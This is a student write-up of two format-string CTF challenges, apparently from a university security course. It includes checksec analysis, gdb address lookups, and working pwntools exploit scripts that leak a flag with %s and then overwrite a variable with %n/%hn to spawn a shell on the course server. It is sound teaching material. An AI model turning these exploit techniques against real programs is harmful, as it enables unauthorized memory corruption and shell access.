# Exploiting Format-string vulnerabilities CTF

## Challenge 1

#### Checksec
Running `checksec program`, we got the following result:



This tells us that the stack canary is present, protecting from stack overflow attacks. NX enabled means that the stack is not executable, so we cannot use a buffer overflow to execute shellcode. PIE (Position independent executable) is disabled, so the addresses of the program are fixed. This means that we can use gdb to find the address of certain variables and use them in our exploit.

### Source code analysis

By reading the source code given, we found the source of the vulnerability. The line with the vulnerability is the following:
```c
printf(buffer);
```
This is vulnerable to a format string attack, since the buffer contains direct user input, as seen here:
```c
scanf("%32s", &buffer);
```
As seen in the seedlabs guide, we can inject a format string in our input, which makes us be able to read the contents of the program's memory, as well as writing on it.

In the first challenge, the flag is already loaded into memory, so we just need to read the value of the variable containing it.

So, to read the flag, we need to pass the address of the variable with the value of the flag to printf. Then, by using the `%s` format string, we can print the flag's contents. We need make sure `%s` read the address of the flag that we passed, as we did in the seedlabs guide.

As seen before on `checksec`, PIE is not enabled. This means that the addresses of the program are fixed. As sugested on the moodle assignment, we can use gdb to find the address of the flag variable, which is located on the heap.

### Reading the address of the variable flag
In order to read the address of the variable that will hold the flag, we can simply do:
```bash
gdb program
```
And inside gdb, we just do
```
p &flag
```
The result is this:


Now, we know the address of the flag: `0x804c060`. Since PIE is disabled, the address will be the same on the server.

We tried passing `<flag_address>%s` as the string. The objective was that `%s` reads the flag address as an argument and effectively reads the contents of the flag.

So, we developed this exploit:
```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    pause()     # pause execution to attach gdb
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)


N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

flag_addr = 0x804c060   # the flag address read in the local instance using gdb
content[0:4] = (flag_addr).to_bytes(4,byteorder='little')

s = "%s"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt

p.recvuntil(b"got:")
p.sendline(content)
p.interactive()
```
### Local execution
We started by running locally. On a terminal, we run the python script, on the other we attach using gdb.
```bash
python3 exploit_example.py
```
```bash
gdb attach <pid>
```
Then we can just type `continue` on the gdb and Enter the python script terminal. We can also simply run the python script by itself and just Enter in the terminal to continue the execution.

The result is this:



We have successfully read the contents of flag.txt locally.

Now to run it on the server, we can just set `LOCAL = False` in the script and run it again.
```bash
python3 exploit_example.py
```
The result is this:



We have successfully read the contents of flag.txt on the server.

## Challenge 2

#### Checksec
We ran `checksec program` and the output was the following:



We can conclude, just as before, that the addresses of the variables are fixed, since PIE is disabled. So, they are the same on the server. We can find out the address of a variable by using gdb, just as before. The only difference from the other program is that here there is no RELRO (Relocation Read-Only).

### Source code analysis
So, we start by reading the source code. We can see that the vulnerability is the same as before, the line is:
```c
printf(buffer)
```
The buffer is given by user input, so we can inject a format string in it. This allows us to read and write the contents of the program's memory.

In this challenge, since the flag is not loaded into memory, we cannot just read it from the memory of the program.
However, there is a variable `key` located in the heap that, if assigned a certain value, leads the program to launch a shell program by running the following line:
```c
system("/bin/bash");
```
If we can make the program execute this, it allows us to gain access to the shell and simply run `cat flag.txt` to read the flag.

So, our objective is going to be to change the value of that variable named `key`, located on the heap. We can do this by using the `%n` format string. This writes the number of characters printed until that point in the string. We will use this to change the value of the variable `key` so that the if clause succeeds.

The if clause is presented here:
```c
if(key == 0xbeef) {
```

The value must be `0xbeef`, which is 48879 in decimal.

We need to print 48879 characters in the printf and then pass the address of the variable `key` as an argument to `%n`. This will write the number of characters printed until that point in the variable `key`, changing its value to 48879.


We can copy the file from the first challenge and change a few things. We need to change the server to be 4005, and start by testing locally `LOCAL = True`.
We also need to change the `recvuntil` to have the argument '...', since the initial output is different in this challenge.


### Reading the address of the variable key
To do this, we can do the same as before. First, we run the program using `python3 exploit.py` in a terminal. Then we attach to that process using `gdb attach <pid>`.

Then, inside gdb, we can simply do as shown in the image.



Now we know the address of the variable `key`. Since PIE is disabled, the address will be the same on the server.


### First attempt
We tried to pass the address of the variable `key` as an argument to `%n` and print 48879 characters before that.

The format string to input would be like this `ABCD<key_address>%48871x%n`. After printing "ABCD" and the address, we have already printed 8 bytes, so we need to print 48871 more. This "%48871x" is printing the "ABCD" we have passed. After doing so, "%n" will read the address we have passed, so it should write 48879 in the variable `key`.

We tried to do this by using the following python exploit
```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

N = 32
content = bytearray(0x0 for i in range(32))
key_addr = 0x0804b320

content[0:4] = ("ABCD").encode('latin-1')
content[4:8] = (key_addr).to_bytes(4, byteorder='little')

s = "%48871x%n"
fmt = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt

p.recvuntil(b"...")
p.sendline(content)
p.interactive()
```
However, this was not successful. The output was this:



We can see that the variable was not even modified. At the time, we did not fully understand this output. In fact, not much is printed, even though we expected more than 40 thousand characters.

After searching for information about scanf, we found out that it uses whitespace as delimeters, including spaces, tabs and newlines.

That means that it stops after reading a space. We printed our content string from the python script adding:
```python
print(content)
```
And we got this result:



We can see a space on just after the "ABCD". After searching for the ascii code of a space, we realised that the address of the variable `key` ends on the hexadecimal code of a space, which is 0x20. This means that scanf stops reading after the space, so our input is not fully sent to the program.

### Second attempt
This second attempt is shown here but it did not work on the server, although it worked locally.

The idea of this attempt is to pass a different address, which does not end with 0x20, so that scanf reads the whole input. Then, we pass change the value of that address by referencing our own input buffer so that we can finally use the `%n` format string to write the value 48879 in the address of the variable `key`.

In task 3.C of the guide of format string vulnerabilities, it is referenced that we can use %hn and %hhn to modify smaller memory spaces. We can use this to change the value of the address of the variable key that we have passed parcially correct.


After a few tries and some help on how printf works, we came up with the following exploit.
It uses format specifiers `%hhn` to write a single byte and `%i$` to reference the i'th argument passed to printf. We needed this to reduce the size of our input, since we are limited to 32 bytes.

The format string we built starts with "ABCD", then the address pointing to the 8th byte passed to printf, then the address of the variable `key`. That 8th byte is exactly that "incorrect" 0xff passed in the variable key, since this is a little-endian architecture. Our intention is to write 0x20 on this to make it correct. Afterwards, we just need to write to the key variable with the value 48879.

To read the buffer address, we ran the python script locally and attached with gdb.
We added a breakpoint in line 16 by doing `b 16`, continued the program execution and read the address:



```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer_addr = 0xffffd1b0 + 8  # point to 8th byte passed to printf
content[4:8] = (inside_buffer_addr).to_bytes(4,byteorder='little')

key_addr = 0x0804b3ff	# 0x20 replaced by 0xff
content[8:12] = (key_addr).to_bytes(4,byteorder='little')

s = "%20x%hhn%1$48847x%n"
# 0x20 = 32 = 12 + 20
# %hhn writes 0x20 on the address inside_buffer_addr
# 48847 = 0xbeef - 32 - 8
# %1$ references the 1st argument passed to printf
# %n writes 0xbeef in the modified address key_addr (0x20 as the LSB)

fmt  = (s).encode('latin-1')
content[12:12 + len(fmt)] = fmt

p.recvuntil(b"...")
p.sendline(content)
p.interactive()
```

We managed to get the flag with this but only locally, as seen here:




In fact, the problem is that this hardcodes the buffer address which makes it not work on the server. The address on the server is different.


### Third and Final Attempt

Another possible solution came up and this one worked on the server.

The idea was to spill values from adjacent addresses to the variable we want to change. Since we already tried and spent time understanding the way printf works, this was not hard to come up with.

Before actually getting the correct solution, we ended up making the mistake of using 0x19 to try to spill values to 0x20. This was a silly mistake, since we should have used 0x1F, the actual adjacent address.

We figured out that this was happening by using gdb locally and by checking the value of the key variable using `print key` inside gdb.



We can see that the address 0x19 holds the correct value but the key variable has the incorrect value. This is because we are writing to the address 0x19, and not 0x1F.

<!--
0xbe = 190
0xef00 = 61184
-->

Here, we present the working exploit:

```python
key_addr1 = 0x0804b321
key_addr2 = 0x0804b31F

content[0:4] = (key_addr1).to_bytes(4,byteorder='little')
content[4:8] = (key_addr2).to_bytes(4,byteorder='little')

s = "%182x%1$n%60994x%2$hn"
# 8 + 182 = 190 = 0xbe
# %1$n writes 0xbe in the address key_addr1
# 60994 = 0xef00 - 190
# %2$hn writes 0xef00 in the address key_addr2

fmt  = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt
```

We had to use the value `0xef00`, because of the little-endian architecture. The LSB gets written first, which is `0x00`. The MSB `0xef` is written afterwards in the address ending with 0x20.
We use %hn to write only 2 bytes, so that we don't overwrite the values written before in the variable `key`.

This works locally:




And it also works as expected in the server.


We have finally successfully exploited the program and got the flag.
